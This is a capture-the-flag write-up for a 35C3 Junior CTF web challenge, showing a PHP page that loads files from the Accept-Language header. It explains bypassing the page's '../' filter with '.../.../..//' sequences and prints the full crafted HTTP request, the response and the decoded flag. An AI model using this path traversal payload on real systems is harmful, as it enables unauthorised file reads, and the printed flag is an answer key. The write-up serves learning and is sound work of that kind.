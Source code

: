 # 35C3 Junior CTF
# Web write-up - flags

This is a write-up for one of the first web challenges in the 35C3 Junior CTF.

   
This was the tip:
> Fun with flags: http://35.207.169.47
Flag is at /flag

When we land on the page we get to see the PHP code running in the back-end:
`<?php  
highlight_file(__FILE__);  
$lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';  
$lang = explode(',', $lang)[0];  
$lang = str_replace('../', '', $lang);  
$c = file_get_contents("flags/$lang");  
if (!$c) $c = file_get_contents("flags/ot");  
echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';`

Looking at this PHP code we see that it's considering our browser language as a variable *lang* and using it to navigate to the respective path to get the country's flag.

Since the tip says that the challenge's flag is located in /flag we have to find a way to manipulate our request to trick hte page into thinking that our language is something else: a payload we are going to craft.

I opened BURP Suite with the repeater tool to craft this malicious request.

The first thought would be just replacing the language in the request with '*../flag*' but in we can see in the php code that they are protecting against this by replacing '*../*' with '', meaning they are deleting '*../*'.

So we just have to figure out a way to bypass this measure.

What I did was just repeating it and adding each of the characters in '*../*' after it.

'.../.../..//flag/' should, after deletion, output '../flag/'
Repeat it a bunch of times to go back on a lot of directories (we don't know how much until we get to ~/flag 

The final maliciously crafted request should look like this:

    GET / HTTP/1.1
    Host: 35.207.169.47
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: .../.../..//.../.../..//.../.../..//.../.../..//flag
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1

The raw return from this request is:

    <img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">

Decode the base64 and you get the flag:

> 35c3_this_flag_is_the_be5t_fl4g

